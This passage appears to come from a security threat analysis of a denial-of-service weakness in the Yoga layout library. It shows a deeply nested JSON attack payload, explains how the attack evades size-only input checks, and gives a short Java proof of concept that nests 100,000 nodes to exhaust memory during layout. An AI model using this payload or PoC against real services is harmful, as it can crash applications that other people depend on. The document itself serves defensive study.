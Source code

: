 3.  **Malicious Input:** An attacker crafts a deeply nested JSON payload:

    ```json
    {
      "type": "container",
      "children": [
        {
          "type": "container",
          "children": [
            {
              "type": "container",
              "children": [
                // ... Repeat many times ...
                {
                  "type": "container",
                  "children": []
                }
              ]
            }
          ]
        }
      ]
    }
    ```

    The attacker could use a simple script to generate this deeply nested structure.  The depth could easily reach thousands or tens of thousands of levels.

4.  **Bypass:** If the application has *some* input validation, it might check for the *size* of the JSON payload, but not the *nesting depth*.  The attacker could keep the overall payload size relatively small by using empty containers, thus bypassing size-based checks.

#### 4.3 Proof-of-Concept (PoC) (Conceptual - Java Example)

```java
// Conceptual PoC - DO NOT RUN without careful consideration and resource limits!
import com.facebook.yoga.*;

public class YogaDoS {

    public static void main(String[] args) {
        YogaNode root = YogaNodeFactory.create();
        YogaNode current = root;

        // Create a deeply nested structure
        for (int i = 0; i < 100000; i++) { // Extremely high nesting depth
            YogaNode child = YogaNodeFactory.create();
            current.addChildAt(child, 0);
            current = child;
        }

        // Trigger layout calculation (this will likely crash due to memory exhaustion)
        root.calculateLayout(YogaConstants.UNDEFINED, YogaConstants.UNDEFINED);
    }
}
```
